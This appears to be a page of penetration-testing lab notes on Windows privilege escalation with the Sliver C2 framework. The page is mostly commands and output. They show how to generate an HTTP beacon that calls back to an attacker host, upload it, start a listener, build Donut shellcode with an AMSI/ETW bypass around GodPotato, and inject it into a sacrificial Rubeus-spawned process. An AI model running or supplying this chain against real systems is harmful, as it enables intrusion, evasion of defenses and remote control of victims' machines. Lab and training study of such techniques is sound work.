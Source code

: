 ```yaml
---
description: Aliases and Extensions
---
```


# Privilege Escalation

Within Sliver you can run programs like

* `seatbelt -- -group=all`
* `sharpup -- audit`

The `execute-assembly` command can be used as well for executing .NET binaries that we have compiled.

* `execute-assembly /home/Seatbelt.exe -group=system`
* `execute-assembly /home//GodPotato-NET4.exe -cmd "whoami"`

## <mark style="color:yellow;">Donut</mark>

Donut creates binary shellcodes that can be executed in memory. So we can use this to generate a shellcode of a .NET binary and run it with `execute-shellcode`.

1. We would need to create either an `http` or `mtls` beacon(s) beforehand.

```sh
sliver (HIGH_RISER) > generate beacon --http 10.10.14.62:9002 --skip-symbols -N http-beacon

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[*] Implant saved to /home/htb-ac590/http-beacon.exe
```

2. Upload the beacon to the target. The shellcode from Donut will look for the binary in the payload argument for the tool. Place it in c:\Windows\Tasks or Temp.

```sh
sliver (HIGH_RISER) > upload http-beacon.exe
[*] Wrote file to c:\temp\http-beacon.exe
```

3. Start an `HTTP` listener that will listen on port 9002 in Sliver.

```sh
sliver (HIGH_RISER) > http --lhost 10.10.14.62 --lport 9002

[*] Starting HTTP :9002 listener ...
[*] Successfully started job #5
```

4. Create binary shellcode using:\
   `-i` for executing in memory\
   `-a 2` is amd64\
   `-b 2` is AMSI/WLDP/ETW bypass\
   `-p` binary arguments\
   `-o` output directory and name shellcode

```sh
./donut -i /home/kali/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\http-beacon.exe' -o /home/kali/godpotato.bin
```

5. Create a sacrificial process using Rubeus.

```sh
sliver (HIGH_RISER) > execute-assembly /home/htb-ac590/Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
```

6. With sacrifical process running use execute shellcode with the PID from Rubeus and the payload.bin.

```sh
sliver (HIGH_RISER) > execute-shellcode -p 5668 /home/htb-ac590/godpotato.bin

[*] Executed shellcode on target
sliver (HIGH_RISER) > ps -e notepad

 Pid    Ppid   Owner                        Arch     Executable    Session 
====== ====== ============================ ======== ============= =========
 5668   5884   IIS APPPOOL\DefaultAppPool   x86_64   notepad.exe   0  
 
# Use beacon
use 46d
```

